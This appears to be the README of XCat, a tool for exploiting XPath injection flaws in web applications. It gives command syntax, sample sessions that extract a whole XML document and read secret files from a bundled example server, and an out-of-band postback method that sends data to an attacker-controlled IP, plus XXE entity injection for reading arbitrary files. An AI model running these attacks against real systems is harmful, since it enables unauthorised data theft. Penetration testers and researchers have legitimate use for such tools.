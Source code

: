 About XCat
==========

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only a few pure-python dependencies)
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Features planned for future releases:

* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Error based retrieval

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve

This command specifies the target URL (our localhost server), the GET or POST data to send (title=Bible), the vulnerable
parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve the entire XML file
being queried.

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" test_injection
    Testing parameter title:
    SingleQuoteStringInjection:             /lib/book[name='?']
        - XPath2
        - CodepointSearch
        - DocFeature
        - EntityInjection
        - EfficientSubstringSearch

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections
      --help                          Show this message and exit.

    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat-script.py run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" run file_shell
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers XML entity
injection this technique in more detail.
